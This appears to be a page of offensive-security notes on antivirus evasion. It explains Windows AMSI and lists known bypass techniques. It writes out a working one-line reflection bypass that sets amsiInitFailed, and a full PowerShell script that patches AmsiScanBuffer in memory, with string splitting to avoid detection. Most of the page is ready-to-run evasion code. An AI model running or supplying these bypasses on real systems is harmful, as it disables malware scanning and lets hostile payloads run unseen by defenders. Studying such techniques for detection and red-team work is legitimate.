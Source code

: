 ## AV Evasion

* AMSI (Anti-Malware Scan Interface) - PowerShell security feature that will allow any apps/services to integrate into antimalware products; it scans payloads & scripts before execution, inside of runtime.

* [Common bypasses](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/) (usually written in PowerShell and C#) for AMSI include:

  * Patching ```amsi.dll```
  * Amsi ScanBuffer patch
  * Forcing errors
  * Matt Graeber's Reflection
  * PowerShell downgrade

* Matt Graeber's Reflection:

```[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)```

* Patching ```amsi.dll```:

```powershell
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";
#uses C# to call-in functions from Kernel32
#to identify where amsi.dll has been loaded

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$ABSD = 'AmsiS'+'canBuffer';
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
#load C# and identify AmsiScanBuffer string
#to get address location

[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);

#modify memory permissions and patch amsi.dll
#in order to return a specified value
```
